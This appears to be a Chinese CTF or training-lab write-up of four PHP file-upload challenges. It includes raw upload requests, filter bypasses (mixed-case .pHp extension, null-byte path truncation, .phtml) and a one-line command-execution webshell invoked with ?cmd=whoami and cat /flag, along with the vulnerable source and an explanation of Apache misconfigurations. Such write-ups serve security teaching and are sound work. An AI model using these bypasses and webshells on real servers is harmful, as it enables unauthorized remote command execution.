# 第一题 基础题目之文件上传突破

文件上传漏洞是指用户上传了一个可执行的脚本文件，并通过此脚本文件获得了执行服务器端命令的能力。这种攻击方式是最为直接和有效的，“文件上传”本身没有问题，有问题的是文件上传后，服务器怎么处理、解释文件。如果服务器的处理逻辑做的不够安全，则会导致严重的后果。

```
.通过你所学到的知识，测试其过WAF滤规则，突破上传获取webshell，答案就在系统根目录下

请开始答题！
```

这是一个php脚本的服务器,首先上传一个简单的图片,可以获得访问路径


尝试删除请求体中的图片内容后再上传发现请求失败,说明后端校验了文件的mime类型



使用经典的GIF89a 或在GIF87a ,再不添加任何webshell时,可以上传成功



尝试在请求体的filename中修改文件后缀为 php ,提示上传失败

```
POST http://211.103.180.146:34867/Upload/vulnerabilities/fu1.php HTTP/1.1
Host: 211.103.180.146:34867
Content-Length: 183
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Origin: http://211.103.180.146:34867
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVfsjRkHp9Rz8Iy3t
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryVfsjRkHp9Rz8Iy3t
Content-Disposition: form-data; name="files"; filename="1.php"
Content-Type: image/png

GIF8
------WebKitFormBoundaryVfsjRkHp9Rz8Iy3t--
```

尝试其他的后缀,如 `phtml phar php3 php4 php5 php6 php7 php8 phtm pht `

测试了,全都无法解析



后端可能在正则匹配文件名的末尾是否以.php结尾,如果是就不让上传



费尽心思不如灵光一闪,使用pHp 直接完成





```php
<!DOCTYPE html>
<html>
  <head>
    <meta charset="gb2312">
    <title>国家网络空间安全人才培养基地</title>
    <link rel="stylesheet" href="../css/materialize.min.css">

  </head>
  <body>
<div class="container">

  <?php error_reporting(0); ?>

<!-- Navbar goes here -->

   <!-- Page Layout here -->
   <div class="row">

     <div class="col s3">
       <?php 
     		include("nav1.php"); 
   
         	include("function.php"); 
         ?>
     </div>

     <div class="col s9">
       <h5>基础题目之文件上传突破</h5>
       <b>描述</b>
       <p>请开始答题,请上传图片</p>
       <div class="card  teal lighten-1">
            <div class="card-content white-text">
              <span class="card-title">文件上传</span>
              <?php

              $files = @$_FILES["files"];
        
              if (judge($files)) 
		{
                  $fullpath = $_REQUEST["path"] . $files["name"];
                  if (move_uploaded_file($files['tmp_name'], $fullpath)) {
                      echo "<a href='$fullpath'>图片上传成功</a>";
                  }
              }
              elseif (!(judge($files))&&!empty($files)) {
                echo "图片上传失败";
              }
        

              echo '<form method=POST enctype="multipart/form-data" action="">
                      <input type="file" name="files">
                      <input type=submit value="上传"></form>';

              ?>
            </div>
            <div class="card-action">
              <?php if($fullpath!= '') { echo "文件有效，上传成功 <a href=\"$fullpath\"> 点我查看</a>"; } ?>
            </div>
          </div>

     </div>

   </div>

</div>
		 
  </body>
</html>
```

```php
<?php

	//黑名单验证，大小写绕过
	function step1($files)
	{
    	$filename = $files["name"];
    	$ext = substr($filename,strripos($filename,'.') + 1);
    	if ($ext != "php")
    	{
    		return true;
    	}
    	return false;
	}

	//验证MIME头，修改数据包绕过
	function step2($files)
	{
		if($files['type'] == "image/gif" || $files['type'] == "image/jpeg" || $files['type'] == "image/png") 
		{
			return true;
		}
		return false;
	}

	//验证文件内容，不能包含eval等敏感函数名，使用其他内容，文件读写
	function step3($files)
	{
		$content = file_get_contents($files["tmp_name"]);

		if (strpos($content, "eval") === false && strpos($content, "assert") === false )
		{
			return true;
		}
		return false;
	}


    //验证文件头
	function step4($files)
	{
		$png_header = "89504e47";
		$jpg_header = "ffd8FFE0";
		$gif_header = "47494638";

		$header = bin2hex(file_get_contents ( $files["tmp_name"] , 0 , NULL , 0 , 4 )); 

		if (strcasecmp($header,$png_header) == 0 || strcasecmp($header,$jpg_header) == 0 || strcasecmp($header,$gif_header) == 0) 
		{
			return true;
		}
		return false;
	}

    function judge($files)
    {
  
	    if (step1($files) && step2($files) && step3($files) && step4($files))
	    {
	    	return true;
	    }
	    return false;
	  
    }

?>
```

通过查看服务器的 /etc/apache2/apache2.conf,最后一行显示

```apache
# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
ServerName localhost
AddType application/x-httpd-php .Php .PhP .phP .pHp .PHp .pHP .PHP
```

通过 AddType 关联大小写混合的 PHP 后缀,可以执行php脚本

* [ ] 随时尝试大小写绕过

# 第二题

请上传wen.php，连接密码为wen,flag位于系统根目录下

通过发送一个图片,服务器的数据中说明了服务器的架构

```
Server: Apache/2.2.15 (CentOS)
X-Powered-By: PHP/5.2.17
```

同时上传的请求体中有几个隐藏内容

```http
POST http://211.103.180.146:32164/ HTTP/1.1
Host: 211.103.180.146:32164
Content-Length: 580
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Origin: http://211.103.180.146:32164
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary2SicGrQatM19WOxk
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://211.103.180.146:32164/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundary2SicGrQatM19WOxk
Content-Disposition: form-data; name="save_path"

./
------WebKitFormBoundary2SicGrQatM19WOxk
Content-Disposition: form-data; name="upload_file"; filename="Snipaste_2026-03-16_15-19-26.png"
Content-Type: image/png

�PNG


```

传送一个php后缀名字,提示有白名单过滤

文件传送后,还会改文件名,原始文件也无法访问了

## 考虑0字符截断

这里的隐藏目录非常可疑,似乎我们可以控制,

**操作：**

1. 将原来的 `./` 删掉。
2. 填入你想要的木马名字，并在末尾加一个**加号 `+`** 作为占位符，也就是输入 `shell.php+`。

第三步：去 Hex 面板注入 0x00

1. 在 Burp Suite 的 Repeater 窗口中，点击顶部的 **Hex** 标签页。
2. 在右侧的文本显示区，仔细找到你刚才输入的 `shell.php+`。
3. 找到那个 `+` 号对应的十六进制数值，它应该是 **`2b`**。
4. 双击那个 `2b`，将其修改为 **`00`**。
5. 此时你会看到文本区的 `+` 号变成了一个小方块 `□` 或者变成空白。

第四步：发送请求并访问

1. 切回 Raw 视图，点击 **Send**。
2. 虽然网页前端可能依然会返回那个被重命名的路径（如 ``），但那只是代码表面上执行的流程。
3. 实际上，文件已经在底层被截断成了 `shell.php`！
4. **尝试访问：** 直接在浏览器访问 `http://目标网址/上传目录/shell.php?cmd=whoami` 或 `cat /flag`。



成功读取到代码



看看源码:

```php

<?php

$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_ext = strtolower(pathinfo($_FILES['upload_file']['name'], PATHINFO_EXTENSION));
  
    if(in_array($file_ext, $ext_arr)){
        $temp_file = $_FILES['upload_file']['tmp_name'];
  
        // 读取文件内容，检查是否包含 eval 关键字
        $file_content = file_get_contents($temp_file);
        if (strpos($file_content, 'eval') !== false) {
            $msg = "文件内容包含非法关键字！";
        } else {
            $img_path = $_POST['save_path'] . "/" . rand(10, 99) . date("YmdHis") . "." . $file_ext;

            if(move_uploaded_file($temp_file, $img_path)){
                $is_upload = true;
            } else {
                $msg = "上传失败";
            }
        }
    } else {
        $msg = "只允许上传.jpg|.png|.gif类型文件！";
    }
}
?>

<!DOCTYPE html>
<html lang="zh">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>文件上传</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            background-color: #f4f4f4;
            text-align: center;
            margin: 0;
            padding: 20px;
        }
        #upload_panel {
            background: white;
            padding: 20px;
            border-radius: 10px;
            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
            display: inline-block;
            text-align: left;
            width: 400px;
        }
        h3 {
            color: #333;
        }
        .input_file {
            display: block;
            margin: 10px 0;
        }
        .button {
            background: #28a745;
            color: white;
            border: none;
            padding: 10px 15px;
            cursor: pointer;
            border-radius: 5px;
        }
        .button:hover {
            background: #218838;
        }
        #msg {
            color: red;
            margin-top: 10px;
        }
        #img img {
            margin-top: 10px;
            border-radius: 5px;
        }
    </style>
</head>
<body>
    <div id="upload_panel">
        <ol>
            <li>
                <h3>上传区</h3>
                <form enctype="multipart/form-data" method="post">
                    <p>请选择要上传的图片：<p>
                    <input type="hidden" name="save_path" value="./"/>
                    <input class="input_file" type="file" name="upload_file"/>
                    <input class="button" type="submit" name="submit" value="上传"/>
                </form>
                <div id="msg">
                    <?php 
                        if($msg != null){
                            echo "提示：".$msg;
                        }
                    ?>
                </div>
                <div id="img">
                    <?php
                        if($is_upload){
                            echo '';
                        }
                    ?>
                </div>
            </li>
            <?php 
                if(isset($_GET['action']) && $_GET['action'] == "show_code"){
                    include 'show_code.php';
                }
            ?>
        </ol>
    </div>
</body>
</html>
```


# 第三题:没有文件地址



使用工具模糊测试地址,可以看到获得一个301的响应



尝试访问这个地址,出现目录遍历漏洞 



## 漏洞原因:

1. 目录下缺失“默认索引文件”
   当 Web 服务器收到一个指向目录的请求时，它会首先尝试寻找该目录下的默认主页文件。在 Apache 中，这通常由 `DirectoryIndex` 指令定义，默认寻找的文件一般是：
   `index.html`
   `index.php`
   `default.htm` 等。
   **触发条件：** 该 `upload` 文件夹内部**没有**这些默认的索引文件。
2. 服务器开启了“目录索引”功能 (核心配置错误)
   如果找不到默认索引文件，Apache 接下来会检查该目录的配置权限。 在 Apache 的核心配置文件（如 `apache2.conf`、`httpd.conf` 或目录下的 `.htaccess`）中，有一个专门控制目录特性的指令：`Options`。
   **触发条件：** 该目录的配置中包含了 **`Indexes`** 参数（或者是默认开启了该模块且未被显式禁止）。


```
# 错误的配置示例（导致漏洞产生）
<Directory /var/www/html/upload>
    Options Indexes FollowSymLinks
    AllowOverride None
    Require all granted
</Directory>
```


## 验证配置:

在 /etc/apache2/apache2.conf  却是是这样配置的:




## 源码:

```php
<!DOCTYPE html>
<html>
  <head>
    <meta charset="gb2312">
    <title>国家网络空间安全人才培养基地</title>
    <link rel="stylesheet" href="../css/materialize.min.css">

  </head>
  <body>
<div class="container">

  <?php error_reporting(0); ?>

<!-- Navbar goes here -->

   <!-- Page Layout here -->
   <div class="row">

     <div class="col s3">
       <?php 
     
         	include("function.php"); 
         ?>
     </div>

     <div>
       <p>请开始答题,请上传图片</p>
       <div>
            <div>
              <span>文件上传</span>
              <?php

              $files = @$_FILES["files"];
          
              if (judge($files)) 
		{
                  $fullpath = $_REQUEST["path"] .'upload/'. $files["name"];
                  if (move_uploaded_file($files['tmp_name'], $fullpath)) {
                      echo "<a>图片上传成功</a>";
                  }
              }
              elseif (!(judge($files))&&!empty($files)) {
                echo "图片上传失败";
              }
          

              echo '<form method=POST enctype="multipart/form-data" action="">
                      <input type="file" name="files">
                      <input type=submit value="上传"></form>';

              ?>
            </div>
            <div>
              <?php
              if($fullpath!= '') { 
                $fullname = basename($fullpath);
                echo "文件有效，上传成功 <a> $fullname</a>"; } 
              ?>
            </div>
          </div>

     </div>

   </div>

</div>
		 
  </body>
</html>


```

function.php

```
<?php

	//黑名单验证，大小写绕过
	function step1($files)
	{
    	$filename = $files["name"];
    	$ext = substr($filename,strripos($filename,'.') + 1);
    	if ($ext != "php")
    	{
    		return true;
    	}
    	return false;
	}

	//验证MIME头，修改数据包绕过
	function step2($files)
	{
		if($files['type'] == "image/gif" || $files['type'] == "image/jpeg" || $files['type'] == "image/png") 
		{
			return true;
		}
		return false;
	}

	//验证文件内容，不能包含eval等敏感函数名，使用其他内容，文件读写
	function step3($files)
	{
		$content = file_get_contents($files["tmp_name"]);

		if (strpos($content, "eval") === false && strpos($content, "assert") === false )
		{
			return true;
		}
		return false;
	}


    //验证文件头
	function step4($files)
	{
		$png_header = "89504e47";
		$jpg_header = "ffd8FFE0";
		$gif_header = "47494638";

		$header = bin2hex(file_get_contents ( $files["tmp_name"] , 0 , NULL , 0 , 4 )); 

		if (strcasecmp($header,$png_header) == 0 || strcasecmp($header,$jpg_header) == 0 || strcasecmp($header,$gif_header) == 0) 
		{
			return true;
		}
		return false;
	}

    function judge($files)
    {
  
	    if (step1($files) && step2($files) && step3($files) && step4($files))
	    {
	    	return true;
	    }
	    return false;
	  
    }

?>
```


# 第四题:

本题障碍:

1. 文件后缀检查
2. content-type 检查
3. 文件内容检查,只要有php 字符串就不让上传
4. 上传目录位置没有给出

解决方法:

1. 尝试大小写php后缀
2. 模糊测试尝试不同的php脚本后缀,如果有点号 ,记得关掉urlencode

   ```txt
   .php3
   .php4
   .php5
   .php6
   .php7
   .php8
   .phtml
   .pht
   .inc
   .phpt
   .phar
   ```

   

   可以支持phtml
3. 处理php字符的内容检查
   可以使用

   ```php
   <script language="php">system($_REQUEST['cmd']);</script>
   ```
4. 尝试访问和输入命令

